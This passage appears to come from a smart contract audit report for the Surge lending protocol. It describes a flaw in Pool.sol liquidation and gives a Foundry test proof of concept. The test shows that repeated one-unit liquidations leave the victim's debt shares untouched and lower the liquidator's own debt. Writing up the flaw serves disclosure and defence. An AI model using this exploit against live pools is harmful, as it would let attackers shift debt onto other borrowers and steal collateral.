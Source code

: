 [https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L199-L204)

3) In the following code POC, we show that Bob (the test account) and Alice (address(1)) both borrow 1000 loan tokens, and after one year, each of them owe 1200 loan tokens.  Bob liquidates Alice's debt with 200 loan tokens. Bob gets the  200 collateral tokens (proportionately). In addition, Bob reduces his own debt from 1200 to 1100!

To run this test, one needs to change ``pool.getDebtOf()`` as a public function. 

```javascript
function testLiquidateSteal() external {
        uint loanTokenAmount = 12000;
        uint borrowAmount = 1000;
        uint collateralAmountA = 10000;
        uint collateralAmountB = 1400;
        MockERC20 collateralToken = new MockERC20(collateralAmountA+collateralAmountB, 18);
        MockERC20 loanToken = new MockERC20(loanTokenAmount, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 0.8e18, 0.5e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        loanToken.approve(address(pool), loanTokenAmount);
        pool.deposit(loanTokenAmount);

        // Alice borrows 1000 
        collateralToken.transfer(address(1), collateralAmountB);
        vm.prank(address(1));
        collateralToken.approve(address(pool), collateralAmountB);
        vm.prank(address(1));
        pool.addCollateral(address(1), collateralAmountB);
        vm.prank(address(1));
        pool.borrow(borrowAmount);

        // Bob borrows 1000 too 
        collateralToken.approve(address(pool), collateralAmountA);
        pool.addCollateral(address(this), collateralAmountA);
        pool.borrow(borrowAmount);

       // Bob's debt becomes 1200
       vm.warp(block.timestamp + 365 days);
       pool.withdraw(0);
       uint mydebt = pool.getDebtOf(pool.debtSharesBalanceOf(address(this)), pool.debtSharesSupply(), pool.lastTotalDebt());
       assertEq(mydebt, 1200);    

      // Alice's debt becomes 1200
       uint address1Debt = pool.getDebtOf(pool.debtSharesBalanceOf(address(1)), pool.debtSharesSupply(), pool.lastTotalDebt());
       assertEq(address1Debt, 1200);  
       assertEq(pool.lastTotalDebt(), 2399);  

       uint myCollateralBeforeLiquidate = collateralToken.balanceOf(address(this));

       // liquidate 200 for Alice
       loanToken.approve(address(pool), 200);
       for(int i; i<200; i++)
            pool.liquidate(address(1), 1);

      // Alice's debt shares are NOT reduced, now Bob's debt is reduced to 1100
       uint debtShares = pool.debtSharesBalanceOf(address(1));
       assertEq(debtShares, 1000);
       assertEq(pool.lastTotalDebt(), 2199);
       address1Debt = pool.getDebtOf(pool.debtSharesBalanceOf(address(1)), pool.debtSharesSupply(), pool.lastTotalDebt());
       assertEq(address1Debt, 1100); 
```